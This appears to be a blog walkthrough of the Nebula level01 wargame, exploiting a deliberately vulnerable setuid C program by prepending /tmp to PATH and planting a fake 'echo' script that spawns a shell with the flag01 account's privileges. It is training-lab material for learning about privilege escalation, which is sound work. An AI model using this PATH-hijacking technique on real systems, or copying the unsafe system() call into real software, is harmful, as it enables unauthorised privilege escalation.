 ```yaml
---
layout: post
title:  "exploit-exercises.com - nebula - level01"
categories: exploit-exercises.com
---
```


The second nebula level wants us to find a vulnerability in the program below:

{% highlight c %} 
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endhighlight %}

The last line is interesting. Instead of calling just `echo and now what?` the program runs the command through /usr/bin/env which means that it will run whatever the default version of `echo` is in the current **env**ironment or to be more precisely, the first `echo` executable that appears in the user's `$PATH`.

Let's check our $PATH:
```bash
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

So first it will look for the `echo` program in `/usr/local/sbin`, then in `/usr/local/bin` and so on. Now if we change the `$PATH` variable and introduce a path where we place a file called `echo` then this file will be executed!

```bash
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level01@nebula:~$ PATH=/tmp:$PATH
level01@nebula:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Let's place the `bash` program in `/tmp` and rename it to `echo`:

```bash
level01@nebula:/home/flag01$ whereis bash
bash: /bin/bash /etc/bash.bashrc /usr/share/man/man1/bash.1.gz
level01@nebula:/home/flag01$ cp /bin/bash /tmp/
level01@nebula:/home/flag01$ ls -l /tmp/
total 904
-rwxr-xr-x 1 level01 level01 916692 2018-05-27 01:11 bash
level01@nebula:/home/flag01$ mv /tmp/bash /tmp/echo
level01@nebula:/home/flag01$ ls -l /tmp/
total 904
-rwxr-xr-x 1 level01 level01 916692 2018-05-27 01:11 echo
```

Now if we run the flag01 program our fake echo command will run and we will have a new shell which runs with the rights of the owner of the flag01 program:

```bash
level01@nebula:/home/flag01$ ./flag01 
echo: and: No such file or directory
```

What happened here? The program tries to call echo (now bash) with the arguments `and now what?`. From `man bash`: *If  arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands.  If bash is invoked in this fashion,  $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits.  Bash's exit status is the exit  sta‐tus  of the last command executed in the script. If no commands are executed the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.*
We have to find a way to ignore these arguments. Let's write a simple script which opens a new shell and ignores `and now what?`:

```bash
#!/bin/bash
bash
```

Save this in a file called `echo` under `/tmp`, make it executable and run the program again:

```bash
level01@nebula:/home/flag01$ ls -l /tmp/
total 4
-rw-rw-r-- 1 level01 level01 17 2018-05-27 02:01 echo
level01@nebula:/home/flag01$ chmod +x /tmp/echo 
level01@nebula:/home/flag01$ ls -l /tmp/
total 4
-rwxrwxr-x 1 level01 level01 17 2018-05-27 02:01 echo
level01@nebula:/home/flag01$ cat /tmp/echo 
#!/bin/bash
bash
level01@nebula:/home/flag01$ ./flag01 
flag01@nebula:/home/flag01$ whoami
flag01
```

Success! Now let's grab the flag:

```bash
flag01@nebula:/home/flag01$ getflag 
You have successfully executed getflag on a target account
```

<script src="https://asciinema.org/a/KKOjmYBfe3nJgrDIz3k5SFuex.js" id="asciicast-KKOjmYBfe3nJgrDIz3k5SFuex" async></script>
